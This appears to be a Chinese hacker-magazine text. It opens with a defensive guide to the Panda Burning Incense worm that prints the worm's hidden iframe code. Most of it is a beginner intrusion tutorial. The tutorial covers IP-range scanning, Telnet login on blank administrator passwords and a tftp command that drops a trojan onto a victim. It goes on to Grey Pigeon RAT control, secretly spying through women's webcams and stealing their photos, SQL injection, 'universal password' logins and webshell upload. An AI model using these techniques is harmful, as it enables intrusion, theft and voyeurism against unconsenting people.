熊猫烧香病毒干掉杀毒软件之后的第二件事就是开始感染整个硬盘，这段时间你的电脑表现的症状为运行速度缓慢，CPU占用率始终在100%，而且网卡的指示灯不停地闪烁，严重的甚至会在这个期间蓝屏、重启。如果把网线拔掉的话情况会稍微好一点，机器稍微不卡一点点。

- 3. 双击硬盘打不开

因为大多数熊猫烧香的版本会在每一个磁盘的根目录下放置……

## 主题乐园

置 `autorun.inf` 文件，这个文件的存在使得你双击硬盘时运行硬盘下的病毒文件，但是硬盘却打不开。

使用鼠标右键单击每一个磁盘，都可以看到有“Auto”的字样；如果你使用了 U 盘等移动存储设备，那么 U 盘也会被感染，当这个 U 盘插到其它计算机上使用时，就会传染到下一台计算机中。

### 4．系统里多出可疑进程

在 Windows 系统中，按下 Ctrl+Alt+Del 三键可以打开任务管理器，但是中了病毒就不能使用任务管理器了。建议在“开始”－“运行”栏里输入命令 `CMD`，进入命令提示符，输入命令 `tasklist` 就可以看到当前系统的所有进程。假如下列进程存在，很有可能是中了熊猫烧香病毒：

- rundll32.exe
- spoclsv.exe
- sppoolsv.exe
- sp00lsv.exe
- Fuckjacks.exe
- .GameSetup.exe
- nvscv32.exe

### 5．硬盘多出可疑文件

当计算机的分区在根目录下出现 `setup.exe`、`autorun.inf` 这两个文件，同时存在 `%System%\Fuckjacks.exe` 或 `%System%\Drivers\spoclsv.exe` 等异常文件，很有可能你已经是其中一个中招者了。同时熊猫烧香病毒还会在每一个感染过的目录里写入一个 `Desktop_.ini`，内容为当前的日期。

> 提示：`%System%` 是指 system32 目录。假如我们的 Windows XP 系统是安装在 C 盘，这个 `%System%` 就是指 `C:\WINDOWS\system32\` 目录；假如是 Windows 2000 系统，就是 `C:\WINNT\system32\`。

### 6．脚本文件被插入恶意框架代码

电脑上所有的脚本文件（`*.htm`、`*.html`、`*.asp`、`*.php`、`*.js`、`*.aspx`）中会存在以下代码：

```html
<iframe src="http://www.ctv163.com/wuhan/down.htm" width="0" height="0" frameborder="0"></iframe>
```

这个代码通过框架的形式访问了 `http://www.ctv163.com/wuhan/down.htm` 这个页面，一旦有程序员由于疏忽没有及时发现，在日常维护网站时将这些被“感染”的脚本程序通过 FTP 上传到网站上，该网站就成了带毒的网站，会传染给所有访问该站的用户。

### 7．隐藏文件彻底“隐藏”

小菜们一般都喜欢在“我的电脑”的菜单栏里找到“工具”－“文件夹选项”－“查看”，将“隐藏受保护的操作系统文件（推荐）”的勾去掉，选择“显示所有文件和文件夹”，同时将“隐藏已知文件类型的扩展名”的勾去掉。

这样，系统里所有类型的文件都会清楚无误地展现在我们面前，小菜们也可以轻松查看是否存在恶意文件了。可是中了熊猫烧香病毒后，无论怎么设置，也无法手工修改“文件夹选项”将隐藏的文件显示出来。

### 8．GHO 文件被删除

GHO 文件是很多网民喜欢使用的系统备份工具 Ghost 制作出来的备份文件，往往系统中毒或者瘫痪了，使用 Ghost 可以轻松地将系统还原为原始状态。熊猫烧香病毒会将 GHO 为后缀的所有文件删除，让用户无法恢复系统。

以上这些症状仅代表了熊猫烧香最典型几个病毒版本的部分症状。如果仅仅有一两项符合上面的症状，也有可能是中了其它的病毒，请勿胡乱对号入座，吓人吓己。

## 三、看见熊猫，不怕不怕啦

既然熊猫危害如此之大，下手如此之狠，假如自己或者身边的人不小心中毒岂不是很危险很可怕？其实也没什么大不了的，我也有朋友中过熊猫烧香，正好当时我就在她身边，及时发现后，两个小时不到，全部清除完毕。下面来看看我是怎么做的吧！

### 1．断开网络

因为熊猫烧香是一个蠕虫性质的病毒，它在运行的时候会“无聊”地扫描你所在的网络是否有别的电脑可供入侵，一旦发现漏洞，它就把自己复制过去，感染下一台计算机。因为这个动作非常消耗系统资源，如果不断网的话，很可能你无法进行其它的操作，更可怕的是，还会自动传染给别的电脑。断开网络的最佳办法，专家建议：把电脑机箱后面的网线水晶头拔掉。

### 2．进入安全模式

重新启动计算机，在开机的过程中按下 F8，选择“安全模式”就可以了。因为在安全模式下，大部分的服务和启动项都失效不被加载，包括熊猫烧香。在安全模式下，就可以充分发挥机器的性能用于杀毒。

### 3．使用熊猫烧香专杀工具查／杀病毒

因为熊猫烧香病毒已经发作了一段时间了，所以很多专杀工具都比较有效而且还能够将被感染的 exe 文件恢复原样。因此在万不得已的情况下，完全不必要重装系统，以免丢失宝贵的数据。我介绍几款测试后比较好用的专杀工具！

#### （1）熊猫烧香 + 金猪报警病毒专杀工具 V1.8 正式版

这是“数据安全实验室”发布的专杀工具，本工具实现检测和清除、修复感染熊猫烧香病毒的文件，对熊猫烧香的未知变种具备侦测和处理能力，可以处理目前所有的熊猫烧香病毒家族和相关变种。清除后的文件具备免疫功能，将不再感染熊猫病毒，其运行后的界面如图 3 所示。


图 3

在 1.8 版本中增加了对金猪变种的查杀，增加提示用户修改密码，增加关闭自动运行（autorun）功能。下载地址为 `http://www.dswlab.com/dow/d2.html`，推荐度★★★★★。

#### （2）金山毒霸“熊猫烧香”（武汉男生）病毒专杀工具 V3.7

金山公司出品的专杀工具，支持熊猫烧香所有变种的查杀。如果已经中毒，直接运行专杀工具也会失败，病毒会阻止专杀工具启动，请重启系统时按 F8，选择安全模式，再运行专杀工具处理。下载地址为 `http://tool.duba.net/zhuansha/253.shtml`，推荐度★★★★。该专杀工具可以发现部分病毒并清除被病毒感染的 EXE 文件，可修复注册表，显示所有文件和文件夹，防止工具被病毒关掉。尤其是增加了对 htm、html、asp、aspx、php 等文件的查杀，对程序员和网站站长极具实用价值。


这个小工具广告味较浓，杀毒的时候默认不显示查杀的结果，要手动点“详细情况”才能看到当前的进度，略有不便，不过在众多专杀工具里效果也算不错的。

#### （3）瑞星 Worm.Nimaya（熊猫烧香）专用清除工具 1.9

这个专杀工具仅针对被感染电脑上的活体病毒，建议在登录系统后尽快使用专杀工具扫描，清理网页文件中包含木马病毒的信息。下载地址为 `http://it.rising.com.cn/Channels/Service/2006-11/1163505486d38734.shtml`，推荐度★★★。部分病毒变种后使用瑞星专杀工具没有扫描出来，因此建议参考使用，工具运行后的界面如图 5 所示。


#### （4）PC 保镖之熊猫烧香专杀及防御工具 1.1

针对目前感染熊猫烧香的用户被反复感染的情况，这个工具使用超级防御，能够防止熊猫烧香病毒的自动复制及各种修改，而感染的 exe 文件通过用户点击即可还原，病毒本身将不能起到任何作用。下载地址为 `http://down1.tech.sina.com.cn/download/down_contents/1172332800/34929.shtml`。该专杀工具我没有亲自试用过，但在网上口碑较好，请大家参考使用。

#### （5）其它专杀工具

限于篇幅原因，所有的专杀工具我们不可能面面俱到，但是某种意义上，如果你手头上有更多专杀工具的话，建议挨个地使用一遍。要是觉得时间有限，至少也要用每一个杀毒软件扫描一遍内存，谁第一个找出病毒就用它扫描全盘。

#### （6）批量清除脚本文件里的恶意代码

假如有程序员或者站长感染此病毒的话，最头疼的莫过于所有的网页文件都被插入了恶意代码，成百上千的文件，总不能一个一个地去清除吧？UltraEdit-32 这个强大的编辑器有一个批量替换功能，它可以指定目录，把该目录下所有文件的特定字符串替换成空，这样一来那些挂马的代码就都被清理掉了。打开 UltraEdit-32，在菜单栏里选择“方案－新建方案/工作区”，命名并保存后进入方案设置界面；在右侧单击“添加文件夹”，选择网站程序目录并“关闭自动浏览”；再单击“搜索”，选择“文件中替换”，在“查找”中输入下列代码：

```html
<iframe src='http://www.ctv163.com/wuhan/down.htm' width='0' height='0' frameborder='0'></iframe>
```

“替换为”这个地方留空；把“替换的地方”设为“方案文件”，如图 7，单击“全部替换”就 OK 了。

## 四、求神拜佛，熊猫别再来

在熊猫肆虐的这一段时间里，我一直都没有“荣幸”中毒，颇为遗憾，不过这也是理所当然的事，毕竟我平时的安全意识就比较好，所以把自己的一点经验写出来，希望能给小菜们一点帮助。

### 1．系统补丁一定要打全

预防病毒就像预防疾病一样，首先要自己身体健康，然后才能去考虑防寒防冻。电脑也要健康，那就得常打补丁。很多朋友之所以中毒，都是因为电脑没打补丁，浏览了带病毒的网站后，病毒就通过 IE 的漏洞钻进来了。打全系统补丁就可以给电脑产生“抗体”，即使浏览那些非法网站，也不用担心病毒会钻进来。一般打补丁的方法是使用 Windows 自带的“自动更新”功能，在“开始”菜单中找到“控制面板”，选择“自动更新”进入自动更新设置界面。这里建议设置“自动（推荐）”或者“下载更新，但是由我来决定什么时候安装”都行。当然，很多人可能使用的不是正版操作系统，不能够使用“自动更新”功能，那就只能使用补丁辅助安装工具了。

### 2．系统安全设置

#### （1）系统密码要强壮

各位是不是很喜欢开机后就自动进入系统，而不给登录帐号设置密码呢？假如你使用的是 Windows XP SP2 原版操作系统的话，这样做问题并不大，它不会产生什么太大的安全漏洞。可是如果你使用的是 Windows 2000 或者 Windows 2003 系统的话，这样做就非常危险了！利用 IPC$ 远程管理功能，别人很容易通过它攻击并完全控制你的电脑，熊猫烧香病毒也会利用这一点自动攻击同一个局域网里的其它电脑。


#### （2）自动播放功能要关闭禁用

经常拿电脑来看碟的朋友可能要难受了，以往把光盘往光驱里一塞，播放器就自动跳出来播放电影，这样的懒事都是依赖于“自动播放”功能。可是有一点必须清楚，U 盘在电脑里一插，也会和光盘类似，自动运行一个程序。熊猫烧香在 U 盘上的传播部分就是利用了这个原理。关闭光盘自动播放功能的方法是：在“开始”→“运行”栏输入 **gpedit.msc** 进入“组策略编辑器”，选择“用户配置”→“管理模板”→“系统”，然后在右边显示出来的内容里找到“关闭自动播放”，双击它，选择“已启用”，如图 9。

这样装别人 U 盘过来的时候，就不会轻易地运行病毒程序了。同时在这里强烈建议，U 盘插到计算机上后，尽量养成使用鼠标右键选择“打开”的习惯，否则，一旦双击了 U 盘，病毒还是会被运行的！

#### （3）不要轻易安装不明软件

有些朋友有猎奇心理，看到标榜特别牛的软件就想试一试，比如盗 QQ、免费刷 Q 币、游戏外挂……这些软件有相当一部分里都含有作者留下的后门，一旦运行，就可能成为软件作者的盘中餐。就冲这一点，黑客 X 档案的版主还在论坛上发了一个帖子，名字就叫《刷QB工具——黑客X档案专版》。短短几天内下载量就有数千，虽然它是骗人的，因为实际上并不存在这样的工具；可是也能看得出来黑客 X 档案对小菜们的良苦用心。

与此同时，还要叮嘱大家不要在小网站下载东西，那些地方的软件可能会捆绑有木马病毒，或者捆绑着流氓软件，相当危险。

#### （4）提高自己的防范意识

不要轻易相信陌生人发来的可执行文件，不要轻易浏览 QQ 好友发的“激情网站”，不要轻易点击 QQ 好友所谓的“最近的照片”，因为这些大多数都是 QQ 尾巴病毒造成的。总之，一切都要小心谨慎，相信你即便想中毒，也不会那么容易了。

### 3．熊猫烧香也有免疫程序

本来要专门介绍一下熊猫烧香的免疫功能，可是越琢磨时又发现，现在的专杀工具都已经准备了病毒免疫功能，所以我大致地说一下原理就行了。因为熊猫烧香病毒运行后，肯定要把自己的病毒体放到系统的某个位置，例如 `C:\WINDOWS\system32\Drivers\spoclsv.exe`，假如我们事先就在 `C:\WINDOWS\system32\Drivers\` 下创建了一个 `spoclsv.exe` 文件，同时将这个文件的权限设为“拒绝所有人修改”，那么病毒创建病毒体就会失败，电脑就能在一定程度上降低和减少受损失的危害了。但是这些免疫程序并不是万能的，它不可能阻止所有的熊猫烧香病毒，所以建议大家不要迷信这些免疫程序。

好了，神秘的熊猫烧香就为大家介绍这么多了，有什么不清楚的地方可以到论坛上来讨论，我的 ID 是猫咪森林。

> （文章中涉及到的几款熊猫烧香专杀工具光盘中已收录）

## 堵紧我们的口袋——帐号防盗小经验

- 网络就是一个赌场，上网的每时每刻都会叫嚣着“把你的 QQ 密码、ADSL 拨号密码、网游帐号密码、3389 登录密码……电子邮箱密码……都扔下，密码统统交出来！”所以，各位菜鸟们一定要把账号密码安全放在第一位。
- 如果是在公共场所上网（比如网吧），那么在下机前请务必重启电脑。很多电脑都安装了还原卡或还原精灵，重启后基本上可以杜绝木马级别的键盘记录。
- 不要随便陷入“网恋”，利用网恋来骗财、损失的不只是物质财富，还有情感。帐号及其密码请勿告诉任何人，除非你绝对相信对方。
- 帐号和密码请避免一次性连续输入。比如你的帐号是 `ABcdEFG`，输入时可先输入 `cd`，再用鼠标把光标移到最前输入 `AB`，再用鼠标把光标移到最后输入 `EFG`，这种方法非常小心，大多木马也会失效。

## 菜鸟学黑客

## ——入侵，就这么两下

最近，小编从黑客 X 档案每月的读者回执卡中发现，越来越多的新读者加入了黑客 X 档案这个大家庭。随之而来的问题是，我们以前介绍过的技术，甚至是基本的黑客术语，在这些“鸟蛋”的眼中都成了不可逾越的大山，严重影响了鸟蛋们迅速孵化成菜鸟的进度！

为了响应小编的号召，在黑客 X 档案始终坚持做菜鸟的良师益友，坚持普及网络安全入门知识，坚持弘扬正确的菜鸟黑客道德文化。在这“三个坚持”的思想方针指导下，我决定紧紧围绕在以小编为核心的 X 档案圈，为新来的朋友做一次菜鸟入侵的入门专题。相信通过本专题的学习，大家都能够轻松地掌握最基本的黑客术语和入侵技巧，简简单单迈出学习黑客技术的第一步！

> 只要“80”的数据，很可能就是某木马监测程序在访问网页的时候出现的……那么这个数据也就和正常浏览器页面解析、计算机处于正常状态下可执行的网络应用无关。它们极少间断地进行回发和联系，大多依赖于这个端口。

## 一、扫描和入侵

### 1．介绍

在入侵之前，必须先要了解入侵对象的基本情况。就像泡 MM 的时候，我们也必须先了解 MM 的兴趣爱好、性格背景等等，否则，MM 很可能就会被别人追跑了。入侵之前，获取目标的基本信息是必备的一个步骤，而这个过程人们通常是使用“扫描”技术来实现的。

> ### 小知识：什么是扫描
> 黑客术语里的扫描和日常生活中的扫描并不是一回事。黑客术语里的扫描，一般是预先去打探多端口信息，编写出相应程序，自动检测目标是否存在这些漏洞。这种程序称为“扫描器”，这个过程中做“漏洞扫描”。

当然，还有一种扫描是基于端口或者信息判断的扫描，例如连接对方的每一个端口，查询哪些端口是开着的（每一个端口往往对应一个网络服务，根据端口的情况来了解对方提供了哪些服务），或者访问某个网站的每一个页面，检查这些页面是否存在（黑客们关心的往往是后台登录页面或者某些存在漏洞特征的页面）。虽然这些扫描并不能直接让黑客获得目标的权限，但是显然这一步骤是必不可少的。

在实际生活中，除了黑客和入侵者会经常使用扫描工具外，网络管理员也会经常使用扫描工具帮助自己检查网络是否足够安全。因此，学会使用各种各样的扫描器是踏入网络安全的第一步。首先来认识一下端口扫描吧！

> ### 小知识：什么是端口
> 端口（Port）是计算机芯片与外界通信设备连接的“关卡”。大家可以想象一下 QQ 客户端和服务器进行数据传输的时候（IE、QQ、PPlive……），那么当大量的网络数据传输到本机的时候，谁知道哪一个数据包应该由 QQ 来处理，哪一个数据包又由 IE 来处理呢？
>
> 答案就是使用端口来区分。

菜鸟们如果第一次接触这个概念，请在“开始”→“运行”里输入命令 `CMD` 打开“命令行提示符”，然后在命令行提示符里输入命令 `netstat -an`，就可以看到你的电脑当前所有打开的端口，如图 1。


### 2．实战 s 扫描器

其实扫描工具有很多，不过一般来说，菜鸟们都是从端口扫描开始学习的。最近比较流行的端口扫描器不多了，像 Superscan 这种老牌工具黑客 X 档案介绍过太多次了，这次我们就用一个命令行下的超快速扫描工具 `s.exe` 来做演示吧！

s 扫描器的用法为：`s syn IP段 结束IP 端口 /save`。

> ### 小知识：使用命令行下的工具基本操作方法
> 在论坛里，很多菜鸟表示如果黑客工具发过来就是一个程序，你的眼睛发光后就什么都不会用了。其实这些黑客工具很多是命令行操作的，这个 s 扫描器就是其中之一。使用 `s.exe` 之前，假设读者是一个连 DOS 基础命令也不知道的菜鸟，请按照如下步骤进行：
> 1. 把 `s.exe` 放在指定目录下（假设是 `D:\tools\scan\s.exe`）；
> 2. 鼠标点击“开始”→“运行”，输入命令 `CMD` 打开命令行提示符，依次输入命令 `D:`、`CD\TOOLS\SCAN` 切换到 `s.exe` 所在目录下；
> 3. 输入 `s.exe` 查看帮助信息；同时，后文所有命令都是在这个窗口下输入。

如果你是 Windows XP SP2 的用户，请首先使用突破 XP SP2 最大线程限制的工具将本机进行线程破解，否则的话，由于 Windows XP SP2 默认的安全机制限制了每一台计算机最大网络……## 主题乐园

线程数不能超过 10，因此各种扫描器将无法精确地得到正确的扫描结果。下面对一些常用的命令进行解释：

- **例子一：**
- **例子二：**
- **例子三：**
- **例子四：**
- **例子五：**

```
S TCP 192.168.0.1 192.168.0.255 80 512

S TCP 192.168.0.1 192.168.0.255 21,5631 512 /Banner

S TCP 192.168.0.1 192.168.0.255 1-200 512

S TCP 192.168.0.123 1-200 512

S SYN 192.168.0.123 1-65535 /Save
```

使用 TCP 或 SYN 方式对不同 IP 段与端口范围进行扫描，并可显示 Banner 信息或将结果保存到文件中。

下边来看一个具体实例。通过 `ping www.xxx.com` 得到目标 IP 后，对同网段的 80 端口进行批量扫描。

```
S TCP 221.130.185.1 221.130.185.255 80 512 /Save
```


具体解释了 S 扫描器中 TCP 与 SYN 两种方式：TCP 较慢但较准确；SYN 较快但准确度可能下降。并提示扫描时最好关闭防火墙。

### 3. 端口入侵

扫描完端口之后，要怎么入侵呢？例如对方开放了 23、445、3389 端口时，如何进一步利用这些端口进行入侵。

实际上，扫描出端口信息并不等于已经入侵成功。端口信息只代表对方可能开启了某些服务，是否能利用还取决于服务是否存在漏洞。

> 小鸟甲：这样不就是靠运气吗？

黑枫沉湎：没错啊，苍蝇不叮无缝的蛋，黑客也不能入侵没有漏洞的主机。

#### ① 135、445 端口进行 IPC$ 扫描

135 和 445 端口通常与 RPC、文件共享等功能相关。在 Windows 中，若配置不当可能导致被远程利用。文中建议使用 NTscan 进行扫描，并在起始/结束 IP 处填写扫描范围。


若 IPC$ 扫描失败，可尝试 SMB 和 WMI 方式。

> **小知识：什么是 IPC$**
>
> IPC$（Internet Process Connection）是共享“命名管道”等资源的一种机制，可用于进程间通信与远程管理。在系统配置不当时可能带来安全风险，攻击者可借此尝试远程访问或管理目标主机。已经被降低了权限，无法直接利用；目标必须开启了 IPC$ 共享，才能进行下一步的入侵。

#### ② IPC$ 入侵

我们可以使用啊D网络工具包，在“闪电查找”选项输入 IP 段，然后点“开始查找”，如图 4。

选中扫描到的主机 IP，点右键，选“打开对方的 Telnet”，如图 5，点击“启动”即可把对方的 Telnet 服务开启。


> **小知识：什么是 TELNET？**
>
> TELNET 是一种远程登录协议，该协议允许管理员通过一定的方式在命令行界面控制远程计算机。一般个人用户较少使用，但在一些渗透场景中常用于开启 TELNET 服务端。

依次打开“开始”->“运行”，输入 cmd 并回车，出现 CMD 窗口后输入 `telnet 218.73.243.21`，如图 6，回车后如图 7。


解释一下图 7 里的提示信息：Windows 系统中的 TELNET 服务默认使用 NTLM 认证，会把当前用户名和密码散列发送到远程服务器。若对方系统中存在同名同密账户，认证通过，否则失败。

如果确定本机与对方账户一致（如 administrator 且空密码），输入 Y；否则输入 N 手工输入账号密码。这里输入 N 后回车，输入默认账号 administrator、空密码直接回车，如图 8、图 9。


> **小知识：弱口令**
>
> 强度非常弱的口令（例如 123456、888888）称为弱口令。Windows 安装后默认存在 Administrator 账户，很多用户未设置密码形成“空口令”。文中扫描和入侵成功多源于此类安全意识薄弱造成的问题。

记住：此时输入密码不会回显。成功登录后如图 10，我们就得到了对方的 CMDSHELL。因为使用的是 Administrator 账户，当前权限也是 Administrator。


> **小知识：CMDSHELL**
>
> 在这个例子里，Telnet 连接后在黑窗口输入的命令会在远程主机执行，这就是常说的“SHELL”。由于基于 CMD 命令行界面，所以叫 CMDSHELL；若通过网页脚本控制则称 WEBSHELL。

### 3. 上传木马

在得到 CMDSHELL 之后，常见上传方式有 TFTP 和 FTP。个人较常用 TFTP。先在本地开启 TFTP 服务（监听 UDP 69 端口），精简程序并关闭本机防火墙，将木马和 TFTP 服务放在同一目录。

```bash
tftp -i 218.73.243.21 get muma.exe
```

在 CMDSHELL 中执行上述命令后，对方会从我们的电脑下载木马。再输入 `dir` 查看，确认木马已在对方 C 盘落地，如图 11。


### 4. 运行木马

```bash
muma.exe
```

在 CMDSHELL 中输入 `muma.exe` 并回车后，木马即可运行。

## 主题乐园

如果我们配置的是一个能够自动上线的木马（假设是灰鸽子），现在就打开灰鸽子客户端，更新 IP，等肉鸡上线吧！

## 二、木马

从刚才的简单入侵实例中可以看到，配置一个好用的木马非常重要。可是，什么是木马呢？

> **小知识：什么是木马？**
>
> 看过电影《特洛伊》的读者可能很熟悉这个故事：把士兵藏在一个巨大的木马里，让敌人毫不设防地将木马当作“战利品”拖回城中，然后半夜这些士兵偷偷从木马中跑出来，里应外合。黑客术语里的木马和这个故事很相似，它其实也是一个小程序。这个小程序的作用就是——当你运行了它，它就能躲在暗地里偷偷地将你的电脑交给别的黑客控制。

木马一般分为客户端程序（client）和服务端程序（server）两部分，客户端程序是自己用的，而服务端程序则是让别人运行（关于这个定义其实界内一直有争议，在这里我们既然是初学者，就不要过于斤斤计较了）。

说白了，当你配置好一个木马的时候，千万不要迷迷糊糊地自己去运行服务端，这样给自己的电脑种上一个木马的行为是很丢人的。

### 1. 木马的配置

我们以“牧民战天鸽子 2006 免杀版”为例，打开灰鸽子客户端，界面如图 12。


图12

点击工具栏上的“配置服务程序”来进行服务端的配置，如图 13。


图13

在“IP 通知 http 访问地址、DNS 解析域名或固定 IP”下面输入自己要更新 IP 的地址，例如：http://www.hackerhf.com/ip.txt（注意：这个方式要求某菜们必须拥有一个属于自己的网站，可以随时更新这个文件）。

“上线分组”里的内容可以随便设置，然后设置一下连接密码使别人不能轻易控制你的肉鸡。最后点击“生成服务器”，接着就会在同目录生成名为 server.exe 的程序了，如图 14。现在这个 server.exe 就是一个已经生成好的木马服务端了，记住，千万不要轻易地给自己运行哦！

### 2. 木马的使用

把这个配置好的 server.exe 按照第一节的方式，上传到肉鸡的硬盘里，并且让肉鸡执行，我们就可以控制肉鸡了。到底要怎么样控制呢？在灰鸽子的“自动上线”里，在“FTP 服务器”这栏填好自己网站的地址，然后填好网站的 FTP 账号和密码，在“存放 IP 的文件”填刚才你设置的“ip.txt”。

> **注意：**
>
> 这一段要求小菜必须有自己的网站，否则可能会不知道咋弄。建议小菜在学习到这里的时候，先停下来，到百度搜索“免费空间”，要支持 FTP 上传。在这里做一个小声明，泥水鸽站长提供的免费空间因为各方面问题，马上失效了一个月。近日发现小菜们依然非常迫切地需要这样的免费空间，因此黑客 X 档案正考虑继续和水晶合作，争取提供更多更好的空间送给大家。具体方法还请大家关注 http://www.hackerxfiles.net 的公告。

这里的 ip.txt 一定要根据你的空间的实际情况来填写，例如有些人购买的空间 FTP 根目录和 WEB 根目录不一致，就要保证你存放的文件能够正确地被网页访问到。假如这里操作都没有问题的话，就点击“更新 IP 到 ftp 空间”，如图 15。左下角会有操作是否成功的显示，如果一切不出意外的话，肉鸡就会乖乖地前来报道了，如图 16。


图14


图15

如果对方有摄像头，而且又是 PLMM 的话，我们就可以强行打开对方的摄像头，偷窥到对方的隐私……（小编：我们只是从技术的角度来介绍木马的这个功能，事实上这样做非常不道德，建议菜鸟们点到为止）

想要打开对方的摄像头，只需要点击工具栏上的“视频语音”按钮，然后再点击“开始视频监控”，假设对方有摄像头的话，那对方的画面就清楚地显示在我们面前了，如图 17。

单单监视别人也没什么意思，既然我们控制了对方，那就玩得彻底一点。点击“捕获屏幕”，可以看到对方的桌面，如图 18。

如果对方是我们心仪的 MM，通过屏幕监视还可以知道 MM 上网的兴趣爱好。身为英雄本色的好男儿，我们最大的兴趣当然是 MM 电脑里的“宝贝”——照片了。点击左边 IP 前面的“+”号就会展开对方的硬盘，然后操作和本地没什么两样，如图 19。


把 MM 的照片从远程下载到本地永久保存，极具收藏价值。当然，也可以从本地上传东西到远程，方便利用肉鸡，串入侵别的电脑，如图 20。

点工具栏上的 Telnet 还可以打开远程 cmd，如图 21。在这里也可以执行任意命令，跟第一节里的 TELNET 登录之后没有太大的差别。灰鸽子还有一些其它功能就让大家自己去发掘吧，比如修改注册表、远程注销、重启、关机等。

## 三、网站入侵

这一部分其实正是现在菜鸟学堂的主打内容，不过菜鸟学堂注重从理论上来扎实地教会菜鸟们理解漏洞原理，我就只从入侵的角度来介绍了，以方便那些没有基础的菜鸟快速学会基本简单的脚本入侵。

首先要声明的是，一般说的脚本入侵都是针对动态网站而言的。简单地说，当你看到一个网站的页面都是用 asp、php、jsp、aspx、cfm 之类的做结尾的时候，就有可能被入侵。如果网站文件的页面后缀为 html、htm 或 shtml，那么很可能它们都是现成的静态网页，不支持交互功能，是没办法入侵的（小编：其实确切地应该是没办法使用注入的方式来入侵，但使用别的方法也许可以）。

`www.xxx.com/*.asp?id=*`，目前使用的工具主要有明小子的旁注 WEB 综合检测程序 Ver3.5（Domain3.5）、啊D注入工具 2.31（DSQLTools V2.31）等。

### 1. 网站入侵常用方法介绍

- 1. **注入**
- 2. **上传漏洞**
- 3. **暴库**
- 4. **旁注**
- 5. **COOKIE 欺骗**
- 6. **后台漏洞**

注入漏洞的产生是因为字符过滤不严所造成的，手工检验方法是在网址后面加上 “and 1=1” 和 “and 1=2”，查看返回信息，如果返回正常则说明该网站不存在注入漏洞，相反则存在注入漏洞。

这个漏洞在 DVBBS6.0 时代常被黑客利用，利用上传漏洞可以直接得到 WEBSHELL，危害等级超级高。在目前常见的入侵中，上传漏洞也仍然是常见的漏洞之一。那上传漏洞具体如何利用的呢？我们可以在网站的地址栏的网址后面加上 /uplfile.asp，如果显示“上传格式不正确重新上传”这样的字样，那基本上就是存在上传漏洞了，然后找个可以上传的工具直接可以得到 WEBSHELL。

> ### 小知识：WEBSHELL 是什么？
> WEBSHELL 是以 asp（aspx）、php、jsp 或 cgi 等网页文件形式存在的一种命令执行环境，也可以将其称为一种网页后门；这和我们在前边介绍过的 CMDSHELL 很类似。目前国内经常使用的 webshell 有老兵的站长助手、海阳 2006、phpspy 等。

也就是把对方数据库的路径暴露出来，通常使用的方法是故意提交一些特殊的地址来让对方的程序报错，通过错误提示猜测出对方数据库的真实地址。关于暴库的详细使用，大家可以参见《黑客 X 档案》2007 年第 1 期的某鸟学堂。

通常一台服务器上会绑有多个站点，也就是一个 IP 地址上可能会有好多台域名。如果我们要入侵的那个网站安全性非常好，防护做得非常严密的话，我们就可以从这台主机上的别的网站下手，然后再利用提权、嗅探等方法入侵我们最初的站点。

COOKIES 是一种能够让网站服务器把少量数据储存到客户端的硬盘或内存，或是从客户端的硬盘读取数据的一种技术。当我们浏览某网站时，由 Web 服务器置于你硬盘上的一个非常小的文本文件，它可以记录我们的用户 ID、密码、浏览过的网页、停留的时间等信息。当我们再次访问该网站时，网站就通过读取 Cookies，得知我们的信息，就可以做出相应的动作，比如在页面显示欢迎的信息，或是让我们不用输入 ID、密码就可以直接登录等。由于 Cookies 是存放在我们自己的电脑上的，因此完全可以对 Cookies 进行修改，从而欺骗服务器，达到特定的目的，这就是 Cookies 欺骗。

其实这个应该说成是人为的漏洞，一些管理员不注意安全，不修改默认密码，从而让入侵者有机可乘，我们只要输入一些默认的账号和密码就可以成功登录，比如 admin：admin 等。另外还有万能密码，比如 “1 or 1=1 or ''”。下边，我们就主要来介绍一下注入和上传漏洞以及后台的利用，因为目前这三种是比较流行的。我们在前边讲过，注入漏洞是由于字符过滤不严而造成的，一般常见存在方式是 http://

### 2. 网站入侵实例

（1）注入

我们打开明小子旁注入侵工具，界面如图 22 所示，在“当前路径”里可填入网址进行检测，然后点“连接”，如果该网站存在注入漏洞，就会在返回页面“注入点”里用红色显示，如图 23。注入点检测到了，我们就开始注入该网站吧。随便选中一个注入点，点击鼠标右键，然后选择检测注入，就会自动转到“SQL 注入猜解检测”界面。


点击“开始检测”，会在右下方的提示栏看到提示可以注入，检测出的数据库类型是 access 数据库。然后点击“猜解表名”，可以猜测数据库中的表，表猜出来后选中表名，点击旁边的“猜解列名”来猜解列名，然后在要猜解的列名中打上勾，再点击“猜解内容”就开始猜解数据库中管理员的账号密码了，如图 24。接下来就是猜解后台地址了，点击“管理入口扫描”，再点击“扫描后台地址”，就可以扫出这个站的后台地址了，如图 25。然后就是打开扫描到的后台地址，使用猜解出的账号密码进行登录。菜鸟问道：“对于注入我懂了点儿，那要怎么找注入点呢，难道要我们一个网站一个网站地去试吗？”


图24


图25


图26

如图 26，就进入了百度的高级搜索选项。

在关键字栏就随大家的喜好进行填写了，比如我们想寻找学校网站的注入点，那关键字就可以填“学校”或“高校”。然后在选择“搜索结果显示的条数”中选择“每页显示 100 条”，最后点击“百度搜索”就可以了，如图 27、图 28。


图27


图28

黑枫答道：“一个一个地找当然比较麻烦，不过我教大家一个快速寻找注入点的方法，100% 可以找到注入点，我们要用到的工具就是啊D注入工具。”

另一菜鸟就提出了疑问：“为什么不用明小子入侵工具呢，我们已经熟悉了明小子。”

其实，这是因为啊D注入工具在检测注入点方面是要优于其它几个注入工具的，我们打开啊D，选择“扫描注入点”，然后在“检测网址”栏输入百度的网址，然后选择“高级搜索”。

（2）后台

对于后台入侵，相信玩过入侵的朋友再熟悉不过了，这次我们就要从后台获取一个 webshell。我们可以选择一些公司的网站，因为一般企业的网站后台都会存在“or'='or1”漏洞。我们从搜索到的网站中找一个，使用万能密码登录看看，如图 29、图 30，成功地进入了网站后台。

在进入的站后台后，首先就是要查看后台的功能，发现有备份功能，而且上传页面也没有删除，实在是太好了，开始行动。

- 1. 备份得到 webshell

既然有备份功能，那就把我们的网页木马改成 jpg、gif 或 rar 格式的上传上去，对于 jpg、gif、rar 这几种格式的文件，网站通常都会允许上传的。

点击左栏的“新增产品”，就会出现一个需要我们填写的上传界面，点“浏览”选择我们改名后的网页木马，然后点旁边的“上传”，很快地就上传成功了，而在上传界面的下方也给出了 asp 木马的地址，如图 31。

现在来使用备份功能，复制下网页木马的地址，然后点“数据库备份”，在“当前数据库路径”栏中填我们刚才上传的木马文件的地址，在下面那栏填上备份的目录，可以随便填，但一定要注意，填的格式一定是 asp 或 asa 格式的，如图 32，最后点“确定”进行备份，webshell 就轻松地拿到了。

## 主题乐园


